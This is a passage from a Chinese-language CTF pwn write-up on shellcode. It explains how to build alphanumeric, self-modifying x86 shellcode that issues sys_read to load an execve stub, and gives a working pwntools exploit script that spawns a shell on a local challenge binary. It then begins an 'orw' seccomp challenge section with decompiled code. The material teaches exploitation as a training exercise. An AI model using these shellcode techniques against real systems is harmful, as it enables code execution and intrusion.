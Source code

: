 其中 `pop ebx` 是没有的，但是可以采用 `push` 系列的指令和 `popa` 来赋值。还有关键的一点是 `int 0x80` 并不存在，也需要使用一些 tricks。这里可以看到有异或的指令，如果控制了 `ecx`（将 shellcode 的地址赋给 `ecx`）和 `al`，就可以对指定部分的 shellcode 实现自修改。这里的情况是 shellcode 被读到栈上，可以通过 `inc` 和 `dec` 调整 `esp` 的位置，然后 `pop` 给 `ecx`。一般来说采用构造 `sys_read` 的方式来读入 `sys_execve` 的 shellcode 覆盖（自修改）原本的 shellcode。

原理大概如上，具体实现经过调试后才会更加熟悉，脚本：

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'
context.terminal = ['lxterminal', '-e']

p = process('./main')

#gdb.attach(p)

sh = (
	'DDDDDDDDDDDDDDDDDDDDY' + # pop ecx
	'jDX4DH0AA' + # 0xff ^ ord('2') => 0xcd
	'jDX4DH4K0AB' + # 0xff ^ ord('9') ^ ord('F') => 0x80
	'jDX4D' + # set eax=0
	'PQPPPPPPa' + # set ebx
	'jzZ' + # set edx=90
	'j7X44' # set eax=3
).ljust(0x41, 'P') + '24'

print disasm(sh)
print len(sh)
p.sendlineafter('shellcode>\n', sh)

#raw_input('@')
p.sendline('\x90' * 70 + asm(shellcraft.sh()))

p.interactive()
```

# Child Shellcode

## orw

题目一开始 seccomp 设置了白名单，根据提示也可以知道只能使用 open、read、write 三个调用来读取 `/home/orw/flag`。然后可以输入长 0xC8 的 shellcode 执行：

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
